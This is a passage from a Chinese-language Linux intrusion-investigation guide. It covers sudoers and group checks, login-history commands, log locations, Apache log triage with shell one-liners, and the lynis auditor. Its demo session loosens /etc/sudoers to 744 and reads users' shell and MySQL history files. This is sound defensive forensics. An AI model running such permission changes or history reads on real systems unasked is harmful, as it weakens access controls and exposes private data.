- sudo 配置文件: `/etc/sudoers` 规定了系统中的用户是否可以执行 sudo 命令，以及通过 sudo 可以执行哪些命令。

> 一个用户即使 uid 和 gid 均不为 0, 也可能通过这个文件来实现管理员身份的操作;

> 正常情况下 `/etc/sudoers` 开放的权限只有 440，仅可读。若发现sudoers文件具有可写权限，则需要警惕。

```bash
[root@localhost ~]# chmod 744 /etc/sudoers
[root@localhost ~]# ll /etc/sudoers
-rwxr--r--. 1 root root 3938 6月   7 2017 /etc/sudoers

[root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
root    ALL=(ALL)       ALL
attack  ALL=(ALL)       ALL
%wheel  ALL=(ALL)       ALL
# 以上输出的结果中，root、attack以及wheel组中的所有用户都可以通过sudo来执行所有命令
# 第一个 "ALL" 指示允许从任何终端、机器访问"sudo"
# 第二个 "(ALL)" 指示"sudo"命令被允许以任何用户身份执行
# 第三个 "ALL" 表示所有命令都可以作为"root"执行
```

- `/etc/group` 文件是用户组配置文件，即用户组的所有信息都存放在此文件中。排查是否有用户被添加到了root组中。

```bash
[root@localhost ~]# cat /etc/group |grep root
[+] root:x:0:
# 组名：组密码：GID：该用户组中的用户列表(初始用户不会显示在组用户中)
```

#### 历史登录信息

```bash
[root@localhost ~]# last
# " /var/log/wtmp "永久记录所有用户的登录、注销信息，同时记录系统的启动、重启、关机事件。
#	同样这个文件也是一个二进制文件，不能直接vi，而需要使用last命令来查看。

[root@localhost ~]# lastb
# " /var/log/btmp "是记录错误登录的日志，这个文件是二进制文件，不能直接vi查看，而要使用lastb命令查看。

[root@localhost ~]# lastlog
# " /var/log/lastlog "是记录系统中所有用户最后一次登录时间的日志，这个文件是二进制文件，不能直接vi，而要使   用lastlog命令查看。
```

### 日志审查

#### 用户日志

每个用户家目录下都有:

```bash
[root@localhost ~]# cat .bash_history
# 每个用户下面都有1个隐藏的.bash_history
```

#### 登录日志

登录信息检查

```bash
[root@localhost ~]# cat /var/log/secure*
# 登录信息，包含验证和授权方面的信息，sshd会将所有信息都记录其中，包括登录失败的信息。

[root@localhost ~]# lastlog
# /var/log/lastlog记录每个用户最后的登录信息，需要使用lastlog命令查看

[root@localhost ~]# last -f /var/log/wtmp
# 该日志文件永久记录每个用户登录、注销及系统的启动、停机事件，需要使用last命令查看

[root@localhost ~]# last -f /var/run/utmp
# 该日志文件记录有关当前登录的每个用户的信息，需要使用last命令查看。who、w、users就需要访问这个日志文件。

[root@localhost ~]# last -f /var/log/btmp |more
# 记录所有失败登录信息，需要使用last命令查看，或者直接使用lastb。
```

#### 系统服务日志

```bash
cat /var/log/cron   
# crontab日志

cat /var/log/mail    
# mail日志

cat /var/log/mysqld.log     
# mysql日志

cat ~/.mysql_history    
# mysql的历史记录

cat /var/log/mariadb/mariadb.log   
# mariadb日志

cat /var/log/yum.log    
# 记录yum的安装日志

cat /var/log/syslog
# 它只记录警告信息，常常是系统出问题的信息，所以更应该关注该文件

cat /var/log/xferlog   
# 日志文件记录FTP会话

cat /var/log/user.log   
# 记录所有等级用户信息的日志

cat /var/log/boot.log
# 每次主机引导启动时加载的内容。

cat /var/log/messages 
# 存放的是系统的日志信息，它记录了各种事件，基本上什么应用都能往里写日志。
```

#### apache 日志

apache日志的存放目录：`cat /var/log/apache2/access.log `
* 当前WEB服务器中联接次数最多的ip地址：`netstat -ntu |awk '{print $5}' |sort | uniq -c| sort -nr`
* 查看日志中访问次数最多的前10个IP：
`cat access_log  |cut -d ' ' -f 1 |sort |uniq -c | sort -nr | awk '{print $0 }' | head -n 10 |less`
* 查看日志中出现100次以上的IP：
`cat access_log  |cut -d ' ' -f 1 |sort |uniq -c | awk '{if ($1 > 100) print $0}'｜sort -nr |less `
* 查看最近访问量最高的文件：
`cat access_log |tail -10000|awk '{print $7}'|sort|uniq -c|sort -nr|less`
* 查看日志中访问超过100次的页面：
`cat access_log | cut -d ' ' -f 7 | sort |uniq -c |  awk '{if ($1 > 100) print $0}' | less`
* 统计某url，一天的访问次数：
`cat access_log|grep '12/Aug/2009'|grep '/images/index/e1.gif'|wc|awk '{print $1}' `
* 前五天的访问次数最多的网页：
`cat access_log|awk '{print $7}'|uniq -c |sort -n -r|head -20`
* 从日志里查看该ip在干嘛：
`cat access_log | grep 218.66.36.119| awk '{print $1"\t"$7}' | sort | uniq -c | sort -nr | less`
* 列出传输时间超过 30 秒的文件：
`cat access_log|awk '($NF > 30){print $7}' |sort -n|uniq -c|sort -nr|head -20`
* 列出最最耗时的页面(超过60秒的)
`cat access_log |awk  '($NF > 60 && $7~/\.php/){print $7}' |sort -n|uniq -c|sort -nr|head -100`

### 扫描

#### 枚举工具

除了 [Linux 提权总结](https://r4x.top/2025/05/14/privesca/) 已经提到的自动枚举工具, 还有 lynis 可用:

> 项目地址：[github](https://github.com/CISOfy/lynis)

```bash
cd lynis;
./lynis audit systema
```

#### 脚本

用这个 [脚本](linux_check.sh) 来快速扫盘。

### 总结

跟着这个万能流程来可以减少错误和风险, 所有步骤都不要跳过:

